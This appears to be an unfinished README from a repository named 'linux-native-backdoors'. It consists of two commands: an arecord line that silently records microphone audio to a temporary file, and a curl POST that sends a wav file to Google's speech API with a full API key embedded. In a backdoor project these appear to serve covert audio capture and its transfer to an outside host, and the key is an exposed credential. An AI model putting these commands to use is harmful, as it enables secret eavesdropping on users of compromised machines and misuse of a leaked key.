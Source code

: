 linux-native-backdoors
======================

*working in progress*

Google speech API?

curl -X POST \
--data-binary @'/tmp/hello.wav' \
--header 'Content-Type: audio/l16; rate=16000;' \
'https://www.google.com/speech-api/v2/recognize?output=json&lang=en-us&key=AIzaSyAqk7vE0vQDR3JItUPgFp6bcPqgJz8h8tI'

Pulseaudio tools (arecord)
arecord -d 5 --format=cd --channels=1 --rate=16000 --file-type wav -D default /tmp/trigger.wav

